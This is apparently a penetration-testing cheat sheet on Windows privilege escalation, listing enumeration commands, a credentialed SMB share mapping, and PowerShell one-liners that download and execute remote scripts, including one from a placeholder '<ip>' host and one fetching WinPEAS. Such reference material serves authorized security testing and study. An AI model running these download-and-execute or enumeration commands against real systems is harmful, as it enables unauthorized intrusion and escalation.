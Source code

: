 # Windows Privilege Escalation

## System Enumeration

### List Users

```batch
net user
```

### User Privileges

```batch
whoami /priv
```

### Search Files

{% hint style="info" %}
If you dont know the full path of the file or even the extension, you can use: `*<FILE>*`
{% endhint %}

```batch
cmd /s <FILE>
```

### List Recursive Directories (PowerShell)

```powershell
ls . -Recurse -Force -Name -Filter "<filter>" | foreach { ls -for $_ }
```

### Add SMB share to network drives

```batch
net use z: \\<ip>\<share> /user:<user> <pass>
```

### Execute Remote PowerShell Script

```powershell
IEX(New-Object Net.WebClient).downloadString('http://<ip>/script.ps1')
```

### [WinPEAS](https://github.com/peass-ng/PEASS-ng)

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```
